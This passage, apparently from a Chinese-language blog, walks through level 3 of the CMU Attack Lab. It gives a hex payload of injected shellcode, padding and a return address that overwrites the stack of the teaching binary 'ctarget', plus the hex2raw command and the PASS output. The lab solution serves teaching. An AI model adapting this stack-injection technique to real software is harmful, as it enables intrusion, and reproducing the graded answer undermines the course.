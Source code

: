 查ASCII表，把0x59b997fa变成ASCII码有：`35 39 62 39 39 37 66 61 00`。注意后面加了00，是字符串的'\\0'含义。

整合有：

```
/* CI-L3.txt */
48 c7 c7 a8 dc 61 55 /* mov    $0x5561dca8,%rdi 这里是address1*/
68 fa 18 40 00 /* pushq  $0x4018fa */
c3 /* retq */
00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00 /* address 1 */
35 39 62 39 39 37 66 61 /* cookie's ascii */
00 /* 结尾还有00勿忘 */
```

转换为二进制文件：

```bash
./hex2raw < CI-L1.txt > CI-L1-raw.txt
```

ATTACK！：

```bash
Cookie: 0x59b997fa
Type string:Touch3!: You called touch3("59b997fa")
Valid solution for level 3 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:3:48 C7 C7 A8 DC 61 55 68 FA 18 40 00 C3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 78 DC 61 55 00 00 00 00 35 39 62 39 39 37 66 61 00
```

丝滑！！！

***



## 2. ROP攻击

![](ROP.png)
